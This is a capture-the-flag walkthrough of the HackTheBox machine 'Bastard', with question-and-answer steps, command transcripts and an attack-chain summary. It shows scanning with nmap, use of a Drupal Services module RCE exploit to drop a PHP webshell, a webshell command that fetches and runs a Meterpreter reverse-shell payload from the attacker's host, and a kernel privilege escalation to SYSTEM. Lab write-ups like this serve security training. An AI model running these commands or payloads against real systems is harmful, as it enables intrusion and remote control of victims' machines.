

# Bastard


# Context

Lab link: [https://app.hackthebox.com/machines/Bastard](https://app.hackthebox.com/machines/Bastard)

Suggested tools: `nmap`, `curl`, `searchsploit`, `php`, `ffuf`, `msfvenom`, `msfconsole` (`exploit/multi/handler`, `post/multi/recon/local_exploit_suggester`, `exploit/windows/local/ms15_051_client_copy_image`)

Tactics: Reconnaissance, Resource Development, Initial Access, Execution, Command and Control, Discovery, Privilege Escalation, Collection

# Scenario

Bastard is not overly challenging, however it requires some knowledge of PHP in order to modify and use the proof of concept required for initial entry. This machine demonstrates the potential severity of vulnerabilities in content management systems.

# Questions

Q1- How many TCP ports are listening on Bastard?

Answer: 3

Reason: Three TCP ports were found open on `bastard.htb` (`10.129.128.190`): `80/tcp` running `Microsoft IIS httpd 7.5` fingerprinted as `Drupal 7`, and `135/tcp` plus `49154/tcp` both running `Microsoft Windows RPC` (`msrpc`). The `robots.txt` disallow list and `http-generator` header confirm the web app as a Drupal 7 install.

```bash
$ nmap -sC -sV -p- bastard.htb -v -oN nmap.txt
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-12 10:13 -0500
[...]
Scanning bastard.htb (10.129.128.190) [65535 ports]
Discovered open port 80/tcp on 10.129.128.190
Discovered open port 135/tcp on 10.129.128.190
Discovered open port 49154/tcp on 10.129.128.190
[...]
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-title: Welcome to Bastard | Bastard
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-generator: Drupal 7 (http://drupal.org)
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Q2- What content management system (CMS) is running the website on Bastard?

Answer: Drupal

Reason: The `nmap` service scan against `bastard.htb` fingerprinted the web server's CMS directly via the `http-generator` script output and HTTP response headers, which both identify `Drupal 7`. This was further corroborated by the `http-robots.txt` disallow list, which includes paths unique to Drupal installs such as `/includes/`, `/misc/`, `/modules/`, `/profiles/`, `/themes/`, `/CHANGELOG.txt`, `/cron.php`, and `/INSTALL.mysql.txt`.

Q3- What version of Drupal is running on Bastard?

Answer: 7.54

Reason: Fetching `/CHANGELOG.txt` directly from `http://bastard.htb/` (despite it being listed in `robots.txt`, disallow rules only affect compliant crawlers, not direct requests) confirmed the exact release as `Drupal 7.54`, dated `2017-02-01`. This version is vulnerable to `CVE-2018-7600` (Drupalgeddon2), a pre-auth remote code execution flaw in Drupal's Form API.

```bash
$ curl -isk http://bastard.htb/CHANGELOG.txt | head -n 15
HTTP/1.1 200 OK
Content-Type: text/plain
Last-Modified: Sun, 19 Mar 2017 10:42:44 GMT
Accept-Ranges: bytes
ETag: "e45e8b8a9da0d21:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Thu, 12 Nov 2026 15:28:10 GMT
Content-Length: 110781

Drupal 7.54, 2017-02-01
-----------------------
- Modules are now able to define theme engines (API addition:
  https://www.drupal.org/node/2826480).
[...]
```

Q4- What user is Drupal running as on Bastard?

Answer: `iusr`

Reason: Confirmed RCE by writing a PHP webshell (`dixuSOspsOUU.php`) to the webroot via the `Drupal 7.x Services module` SQL injection/cache-poisoning exploit (`41564.php`), after discovering the real REST endpoint URL path was `/rest` (internal machine name `rest_endpoint`) rather than the PoC's default guess. Executing `whoami` through the webshell confirms IIS runs the Drupal site as `nt authority\iusr`, the built-in anonymous IIS user account.

```bash
$ for name in api rest services service endpoint restapi api-endpoint drupal_services ws rest-endpoint; do
  code=$(curl -s -o /dev/null -w "%{http_code}" "http://bastard.htb/$name")
  echo "$name: $code"
done
api: 404
rest: 200
services: 404
service: 404
endpoint: 404
restapi: 404
api-endpoint: 404
drupal_services: 404
ws: 404
rest-endpoint: 404

$ curl -s http://bastard.htb/rest                                            
Services Endpoint "rest_endpoint" has been setup successfully.

# Modify the intended RCE script 41564.php
$url = 'http://bastard.htb/';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$ php 41564.php                  
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce

#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://bastard.htb//dixuSOspsOUU.php

$ curl -s http://bastard.htb/dixuSOspsOUU.php -d 'echo shell_exec("whoami");'
nt authority\iusr
```

Q5- Have any hotfixes been applied to this host?

Answer: No

Reason: Executing `systeminfo` through the Meterpreter shell on `bastard.htb` shows `Hotfix(s): N/A`, confirming the host has zero applied patches since its original install date of `18/3/2017`. Combined with the OS fingerprint `Microsoft Windows Server 2008 R2 Datacenter`, `Build 7600`, this unpatched state leaves the host wide open to multiple known kernel-level local privilege escalation exploits.

```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.17.7 LPORT=4444 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 355 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe

$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

$ msfconsole -q     
msf > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 10.10.17.7
LHOST => 10.10.17.7
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.17.7:4444 

$ curl -s http://bastard.htb/dixuSOspsOUU.php --data-binary 'file_put_contents("shell.exe", file_get_contents("http://10.10.17.7:8000/shell.exe")); exec("shell.exe");'

[*] Sending stage (203450 bytes) to 10.129.128.190
[*] Meterpreter session 1 opened (10.10.17.7:4444 -> 10.129.128.190:51022) at 2026-11-12 12:51:58 -0500                                  
                                                                                                                                         
meterpreter > getuid                                                                                                                     
Server username: NT AUTHORITY\IUSR

meterpreter > shell
Process 2680 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>systeminfo       
systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          12/11/2026, 5:10:44 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
                           [02]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.603 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.620 MB
Virtual Memory: In Use:    475 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.10.10.2
                                 IP address(es)
                                 [01]: 10.129.128.190
```

Q6- What is the 2015 CVE ID for a vulnerability in the Windows kernel that allows for escalation to System that was originally reported by FireEye as being used by APT28?

Answer: CVE-2015-1701

Reason: Running `exploit/windows/local/ms15_051_client_copy_image` against the x64 `NT AUTHORITY\IUSR` meterpreter session on `bastard.htb` triggered the `win32k.sys` `ClientCopyImage` flaw, escalating privileges to `NT AUTHORITY\SYSTEM`.

```bash
msf exploit(windows/local/ms15_051_client_copy_image) > run
[*] Started reverse TCP handler on 10.10.17.7:4445 
[*] Reflectively injecting the exploit DLL and executing it...
[*] Launching msiexec to host the DLL...
[+] Process 1928 launched.
[*] Reflectively injecting the DLL into 1928...
[*] Sending stage (255674 bytes) to 10.129.128.190
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 3 opened (10.10.17.7:4445 -> 10.129.128.190:51026) at 2026-11-12 13:04:30 -0500

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

Q7- Submit the flag located on the `dimitris` user's desktop.

Answer: [REDACTED]

Q8- Submit the flag located on the `Administrator` user's desktop.

Answer: [REDACTED]

# Attack Architecture



# Attack Chain

| Stage | Detail | MITRE |
| --- | --- | --- |
| Reconnaissance | nmap -sC -sV -p- `bastard.htb` identified 80/tcp (IIS 7.5, Drupal 7) and msrpc on 135/49154 | T1595 |
| Initial Access | Fetched `/CHANGELOG.txt` to confirm exact version Drupal 7.54; identified via robots.txt disallow list and http-generator header | T1592.002 |
| Resource Development | Downloaded Drupal Services module RCE PoC (searchsploit 41564, php/webapps/41564.php); installed missing php-curl dependency | T1588.005 |
| Reconnaissance | Manual curl loop against candidate endpoint names found real Services REST endpoint at `/rest` (internal machine name rest_endpoint) | T1595.002 |
| Initial Access | Executed 41564.php against `/rest`, chaining an unauthenticated SQLi to poison the Services module cache and write a PHP webshell `dixuSOspsOUU.php` to the webroot | T1190 |
| Execution | Confirmed code execution via shell_exec("whoami") through the webshell; returned `nt authority\iusr` | T1059 |
| Command and Control | Delivered windows/meterpreter/reverse_tcp (msfvenom) through the webshell via file_put_contents+exec; caught session with exploit/multi/handler on 4444 | T1105 |
| Discovery | systeminfo showed Hotfix(s): N/A, zero patches since 2017-03-18 install, Windows Server 2008 R2 Build 7600 | T1082 |
| Discovery | post/multi/recon/local_exploit_suggester flagged multiple viable kernel exploits including ms15_051_client_copy_image | T1082 |
| Privilege Escalation | First ms15_051 attempt failed (Running against `WOW64` is not supported) — original session was x86 under `WOW64` on an x64 host | T1068 |
| Privilege Escalation | Regenerated/confirmed x64 meterpreter session (Meterpreter: x64/windows); re-ran exploit/windows/local/ms15_051_client_copy_image (CVE-2015-1701, `win32k.sys`) and obtained `NT AUTHORITY\SYSTEM` | T1068 |
| Collection | Retrieved flags from `dimitris` and `Administrator` desktops | T1005 |

## Attack Tree

```bash
HTB Bastard (bastard.htb)
│
├── 80/tcp -- IIS 7.5 / Drupal 7.54 (Services module RCE)
│   └── CHANGELOG.txt version fingerprint
│       └── manual endpoint discovery -> /rest (rest_endpoint)
│           └── searchsploit 41564.php (SQLi cache poison)
│               └── webshell dixuSOspsOUU.php
│                   └── shell as nt authority\iusr
│                       │
│                       ├── msfvenom x64 meterpreter (reverse_tcp)
│                       │   └── exploit/windows/local/ms15_051_client_copy_image (CVE-2015-1701)
│                       │       └── shell as NT AUTHORITY\SYSTEM
│                       │           │
│                       │           ├── dimitris desktop
│                       │           │   └── [USER FLAG] [REDACTED]
│                       │           │
│                       │           └── Administrator desktop
│                       │               └── [ROOT FLAG] [REDACTED]
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Delivery | Exploit PoC | `php/webapps/41564.php` (Drupal 7 Services module RCE) |
|  | Vulnerable endpoint | `http://bastard.htb/rest` (machine name `rest_endpoint`) |
| Dropped File | Webshell | `dixuSOspsOUU.php` |
|  | Payload | `shell.exe` (`windows/meterpreter/reverse_tcp`, x86) |
|  | Payload | `shell64.exe` (`windows/x64/meterpreter/reverse_tcp`) |
| Host Indicators | Hostname | `BASTARD` |
|  | OS | Microsoft Windows Server 2008 R2 Datacenter, Build 7600 |
|  | Domain | `HTB` |
| Network | Target | `bastard.htb` (`10.129.128.190`) |
|  | Open ports | 80/tcp, 135/tcp, 49154/tcp |
|  | Attacker LHOST | `10.10.17.7` |
| Privilege Escalation | CVE | CVE-2015-1701 (`win32k.sys` ClientCopyImage) |
|  | Metasploit module | `exploit/windows/local/ms15_051_client_copy_image` |
| Flags | User | `dimitris` desktop — [REDACTED] |
|  | Root | `Administrator` desktop — [REDACTED] |

# Lab Insights

1. An unauthenticated REST API exposed by a CMS contrib module is rarely safer than the CMS core itself — module authors reimplement serialization, caching, and input handling outside the framework's hardened code paths, and that reimplementation is where bugs like this SQLi-driven cache poisoning live. Here, the Drupal 7 Services module's custom endpoint handling let an attacker forge a cache entry and write an arbitrary file to the webroot without ever authenticating, proving that a site's attack surface extends well past its core software version. (T1190)
2. An unpatched host doesn't just mean "some CVEs apply" — it means the entire local kernel exploit catalog for that era applies simultaneously, collapsing privilege escalation from a research problem into a menu-selection problem. Hotfix(s): N/A on Bastard meant over a dozen Metasploit local exploits validated as likely-successful in one local_exploit_suggester run, turning what should be a hardened boundary into trivial post-exploitation. (T1068)
3. Payload architecture mismatches are an easy, avoidable self-inflicted failure during privilege escalation: generating a default msfvenom payload without specifying --arch silently produces x86 code that runs under `WOW64` emulation on an x64 host, and several kernel exploits (including `ms15_051`) explicitly refuse to run against an emulated process since they need to manipulate genuine 64-bit kernel structures. Confirming target architecture via systeminfo before payload generation avoids a wasted delivery cycle. (T1055)